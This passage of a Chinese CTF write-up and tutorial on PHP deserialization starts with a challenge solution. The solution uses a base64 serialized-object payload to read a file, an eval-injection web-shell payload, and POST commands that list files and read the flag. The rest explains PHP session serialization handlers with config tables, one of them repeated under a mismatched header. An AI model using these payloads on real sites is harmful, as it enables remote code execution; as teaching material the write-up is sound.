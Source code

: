 ```php
```
然后访问/Gu3ss_m3_h2h2.php?var=TzorNDoiRGVtbyI6Nzp7czoxMDoiAERlbW8AZmlsZSI7czoxNjoiZjE1Z18xc19oZXJlLnBocCI7fQ==，得到f15g_1s_here.php的代码：
```php
<?php 
if (isset($_GET['val'])) { 
    $val = $_GET['val']; 
    eval('$value="' . addslashes($val) . '";'); 
} else { 
    die('hahaha!'); 
} 
?>
访问：http://7fd6cef3296344adb135503e375b83210f41ea6ac1df44e8.game.ichunqiu.com//f15g_1s_here.php?val=${@eval($_POST[0])}
POST请求：0=echo \`ls\`;
Gu3ss_m3_h2h2.php True_F1ag_i3_Here_233.php f15g_1s_here.php index.php
执行：
0=echo \`cat True_F1ag_i3_Here_233.php\`;
```
## 4.2 **session反序列化利用**
首先我们需要了解session反序列化是什么？
PHP在session存储和读取时,都会有一个序列化和反序列化的过程，PHP内置了多种处理器用于存取 $_SESSION 数据，都会对数据进行序列化和反序列化
在php.ini中有以下配置项，wamp的默认配置如图
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200223213850436.png)

配置项	| 说明
-|-|
session.save_path	| 设置session的存储路径
session.save_handler 	| 设定用户自定义存储函数，如果想使用PHP内置会话存储机制之外的可以使用本函数(数据库等方式)
session.auto_start	| 指定会话模块是否在请求开始时启动一个会话,默认为0不启动
session.serialize_handler	| 定义用来序列化/反序列化的处理器名字。默认使用php

反序列化引擎|	对应的存储格式
-|-|
php	| 键名 ＋ 竖线 ＋ 经过 serialize() 函数反序列处理的值
php_binary 	| 键名的长度对应的ASCII字符 ＋ 键名 ＋ 经过 serialize() 函数反序列处理的值
php_serialize	| 经过 serialize() 函数反序列处理的数组

三种序列化引擎反序列化样例：

序列化引擎	| 对应的存储格式
-|-|
php	| 键名 ＋ 竖线 ＋ 经过 serialize() 函数反序列处理的值
php_binary 	| 键名的长度对应的ASCII字符 ＋ 键名 ＋ 经过 serialize() 函数反序列处理的值
php_serialize	| 经过 serialize() 函数反序列处理的数组

在PHP中默认使用的是PHP引擎，如果要修改为其他的引擎，只需要添加代码ini_set('session.serialize_handler', '需要设置的引擎');。
示例代码如下：
```php
1	<?php
2	ini_set('session.serialize_handler', 'php_serialize');
3	session_start();
4	// do something
```
php中的session中的内容并不是放在内存中的，而是以文件的方式来存储的，存储方式就是由配置项session.save_handler来进行确定的，默认是以文件的方式存储。存储的文件是以sess_sessionid来进行命名的，文件的内容就是session值的序列话之后的内容。
不同序列化引擎最终的存储结果如下，以以下代码为例进行说明：
```php
1	<?php
2	ini_set('session.serialize_handler', 'XXXX指定序列化引擎');
3	session_start();
4	$_SESSION['name'] = 'hahaha';
5	var_dump();
6	?>
```